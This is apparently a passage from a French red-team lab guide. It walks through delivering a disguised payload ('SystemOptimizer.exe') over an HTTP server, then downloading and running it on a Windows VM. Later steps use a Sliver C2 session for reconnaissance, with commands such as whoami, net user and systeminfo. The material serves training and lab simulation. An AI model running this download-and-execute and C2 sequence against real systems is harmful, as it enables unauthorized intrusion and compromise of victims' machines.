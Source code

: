### Étape 1.2 : Simulation de Livraison
```bash
# Copier le payload vers VM2 (simuler email/USB)
# Méthodes possibles :
# 1. Partage réseau temporaire
# 2. Serveur HTTP simple
# 3. Copie directe (pour simulation)

# Démarrer un serveur HTTP sur VM1
cd ~/project-m1/payloads/
python3 -m http.server 8000

# Log de l'action
echo "[$(date)] Payload SystemOptimizer.exe généré et servi via HTTP:8000" >> ~/project-m1/logs/attack-timeline.log
```

### Étape 1.3 : Exécution Initiale sur VM2
```powershell
# Sur VM2 (Windows 10)
# Télécharger le payload (simuler action utilisateur)
Invoke-WebRequest -Uri "http://192.168.56.10:8000/SystemOptimizer.exe" -OutFile "C:\Users\$env:USERNAME\Downloads\SystemOptimizer.exe"

# Exécuter le payload
& "C:\Users\$env:USERNAME\Downloads\SystemOptimizer.exe"
```

### Étape 1.4 : Vérification de la Connexion
```bash
# Sur VM1 (Kali) - Console Silver
sliver > sessions

# Sélectionner la session active
sliver > use <session-name>

# Première reconnaissance
sliver (session_name) > info
sliver (session_name) > whoami
sliver (session_name) > pwd
sliver (session_name) > getpid
```

---

## 🔍 Phase 2 : Reconnaissance Système

### Étape 2.1 : Collecte d'Informations Système
```bash
# Dans la session Silver
sliver (session) > info
sliver (session) > ps
sliver (session) > netstat
sliver (session) > ifconfig

# Énumération des utilisateurs
sliver (session) > execute "net user"
sliver (session) > execute "net localgroup administrators"

# Informations système détaillées
sliver (session) > execute "systeminfo"
sliver (session) > execute "wmic os get name,version,architecture"
```
